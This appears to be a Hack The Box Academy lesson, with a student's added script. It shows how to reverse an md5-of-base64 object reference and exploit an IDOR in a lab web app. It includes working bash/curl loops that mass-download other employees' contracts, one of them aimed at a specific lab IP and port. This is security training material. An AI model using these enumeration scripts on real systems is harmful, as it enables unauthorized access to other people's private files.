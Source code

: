 # Bypassing Encoded References

In the previous section, we saw an example of an IDOR that uses employee uids in clear text, making it easy to enumerate. In some cases, web applications make hashes or encode their object references, making enumeration more difficult, but it may still be possible.

Let's go back to the `Employee Manager` web application to test the `Contracts` functionality:

![](https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_contracts.jpg)

If we click on the `Employment_contract.pdf` file, it starts downloading the file. The intercepted request in Burp looks as follows:

![download_contract](https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_download_contract.jpg)

We see that it is sending a `POST` request to `download.php` with the following data:

Code: php

```php
contract=cdd96d3cc73d1dbdaffa03cc6cd7339b
```

Using a `download.php` script to download files is a common practice to avoid directly linking to files, as that may be exploitable with multiple web attacks. In this case, the web application is not sending the direct reference in cleartext but appears to be hashing it in an `md5` format. Hashes are one-way functions, so we cannot decode them to see their original values.

We can attempt to hash various values, like `uid`, `username`, `filename`, and many others, and see if any of their `md5` hashes match the above value. If we find a match, then we can replicate it for other users and collect their files. For example, let's try to compare the `md5` hash of our `uid`, and see if it matches the above hash:

mylesnieman@htb[/htb]`$ echo -n 1 | md5sum  c4ca4238a0b923820dcc509a6f75849b -`

Unfortunately, the hashes do not match. We can attempt this with various other fields, but none of them matches our hash. In advanced cases, we may also utilize `Burp Comparer` and fuzz various values and then compare each to our hash to see if we find any matches. In this case, the `md5` hash could be for a unique value or a combination of values, which would be very difficult to predict, making this direct reference a `Secure Direct Object Reference`. However, there's one fatal flaw in this web application.

## Function Disclosure

As most modern web applications are developed using JavaScript frameworks, like `Angular`, `React`, or `Vue.js`, many web developers may make the mistake of performing sensitive functions on the front-end, which would expose them to attackers. For example, if the above hash was being calculated on the front-end, we can study the function and then replicate what it's doing to calculate the same hash. Luckily for us, this is precisely the case in this web application.

If we take a look at the link in the source code, we see that it is calling a JavaScript function with `javascript:downloadContract('1')`. Looking at the `downloadContract()` function in the source code, we see the following:

Code: javascript

```javascript
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}
```

This function appears to be sending a `POST` request with the `contract` parameter, which is what we saw above. The value it is sending is an `md5` hash using the `CryptoJS` library, which also matches the request we saw earlier. So, the only thing left to see is what value is being hashed.

In this case, the value being hashed is `btoa(uid)`, which is the `base64` encoded string of the `uid` variable, which is an input argument for the function. Going back to the earlier link where the function was called, we see it calling `downloadContract('1')`. So, the final value being used in the `POST` request is the `base64` encoded string of `1`, which was then `md5` hashed.

We can test this by `base64` encoding our `uid=1`, and then hashing it with `md5`, as follows:

mylesnieman@htb[/htb]`$ echo -n 1 | base64 -w 0 | md5sum  cdd96d3cc73d1dbdaffa03cc6cd7339b -`

**Tip:** We are using the `-n` flag with `echo`, and the `-w 0` flag with `base64`, to avoid adding newlines, in order to be able to calculate the `md5` hash of the same value, without hashing newlines, as that would change the final `md5` hash.

As we can see, this hash matches the hash in our request, meaning that we have successfully reversed the hashing technique used on the object references, turning them into IDOR's. With that, we can begin enumerating other employees' contracts using the same hashing method we used above. `Before continuing, try to write a script similar to what we used in the previous section to enumerate all contracts`.

## Mass Enumeration

Once again, let us write a simple bash script to retrieve all employee contracts. More often than not, this is the easiest and most efficient method of enumerating data and files through IDOR vulnerabilities. In more advanced cases, we may utilize tools like `Burp Intruder` or `ZAP Fuzzer`, but a simple bash script should be the best course for our exercise.

We can start by calculating the hash for each of the first ten employees using the same previous command while using `tr -d` to remove the trailing `-` characters, as follows:

mylesnieman@htb[/htb]`$ for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done  cdd96d3cc73d1dbdaffa03cc6cd7339b 0b7e7dee87b1c3b98e72131173dfbbbf 0b24df25fe628797b3a50ae0724d2730 f7947d50da7a043693a592b4db43b0a1 8b9af1f7f76daf0f02bd9c48c4a2e3d0 006d1236aee3f92b8322299796ba1989 b523ff8d1ced96cef9c86492e790c2fb d477819d240e7d3dd9499ed8d23e7158 3e57e65a34ffcb2e93cb545d024f5bde 5d4aace023dc088767b4e08c79415dcd`

Next, we can make a `POST` request on `download.php` with each of the above hashes as the `contract` value, which should give us our final script:

Code: bash

```bash
#!/bin/bash

for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done
```

With that, we can run the script, and it should download all contracts for employees 1-10:

mylesnieman@htb[/htb]`$ bash ./exploit.sh $ ls -1  contract_006d1236aee3f92b8322299796ba1989.pdf contract_0b24df25fe628797b3a50ae0724d2730.pdf contract_0b7e7dee87b1c3b98e72131173dfbbbf.pdf contract_3e57e65a34ffcb2e93cb545d024f5bde.pdf contract_5d4aace023dc088767b4e08c79415dcd.pdf contract_8b9af1f7f76daf0f02bd9c48c4a2e3d0.pdf contract_b523ff8d1ced96cef9c86492e790c2fb.pdf contract_cdd96d3cc73d1dbdaffa03cc6cd7339b.pdf contract_d477819d240e7d3dd9499ed8d23e7158.pdf contract_f7947d50da7a043693a592b4db43b0a1.pdf`

As we can see, because we could reverse the hashing technique used on the object references, we can now successfully exploit the IDOR vulnerability to retrieve all other users' contracts.



This one was really fun.


```bash
#!/bin/bash
# Function to encode a string to Base64 and URL encode it
url_encode() {
    local string="${1}"
    local encoded=""
    encoded=$(echo -n "${string}" | base64 | tr -d '=' | tr '/+' '_-' | jq -sRr @uri)
    echo "${encoded}"
}

# Loop through the first 20 numerical IDs
for uid in {1..21}; do
    # Encode the UID
    encoded_uid=$(url_encode "${uid}")
    
    # Construct the URL
    url="http://94.237.62.124:40270/download.php?contract=${encoded_uid}"
    
    # Download the PDF
    curl -o "contract_${uid}" "${url}"
done
```
![[Pasted image 20240530091706.png]]